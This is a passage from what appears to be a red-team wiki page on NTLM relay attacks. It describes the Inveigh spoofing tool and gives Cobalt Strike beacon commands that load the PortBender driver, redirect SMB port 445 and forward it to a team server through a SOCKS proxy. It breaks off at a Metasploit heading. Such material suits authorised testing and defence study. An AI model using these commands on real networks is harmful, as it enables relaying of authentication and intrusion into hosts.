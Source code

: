 ### Inveigh - C#/PowerShell Responder

> Inveigh is a PowerShell ADIDNS/LLMNR/NBNS/mDNS/DNS spoofer and man-in-the-middle tool designed to assist penetration testers/red teamers that find themselves limited to a Windows system.

[**Inveigh** ](https://github.com/Kevin-Robertson/Inveigh)was a PowerShell script, now it's a C# binary that has the same main features as Responder.\
Another version can be found in [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero).

![](../../.gitbook/assets/45662029-1b5e6300-bace-11e8-8180-32f8d377d48b.png)

## NTML Relay Attack

This attack relays **SMB authentication sessions** on an internal network to a **target machine**. If the authentication **session is successful**, it will automatically drop you into a **system** **shell**. Please, note that the relayed authentication must be from a **user which has Local Admin access to the relayed** host and **SMB signing must be disabled**.

### 445 forward and tunneling

{% hint style="warning" %}
If you can **introduce a machine inside the network** you can use any of the **tools** of the following section to perform a relay attack and you don't need to care about this.
{% endhint %}

However, in red teams this isn't the case, in red teams you usually will need to **forward the traffic of the port 445 of a Windows machine to your machine** executing any of the following tools and then r**oute back the traffic of that tool through a proxy** to reach the machine to attack inside the internal.

The tool [**PortBender**](https://github.com/praetorian-inc/PortBender) **** is a driver to **redirect** traffic destined for port **445 to another port** (e.g. 8445) that **we can bind**. It **requires local admin** access in order for the driver to be loaded. It makes sense to use `cd C:\Windows\System32\drivers` since this is where most Windows drivers go.

```bash
Cobalt Strike -> Script Manager -> Load (Select from the filesystem PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Go to drivers dir
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Forward traffic to 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Send traffic to port 8445 to Team Server
beacon> socks 1080 # Socks proxy in port 1080 to attack host in the internal network from the Team Server

# To kill
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```

### Metasploit
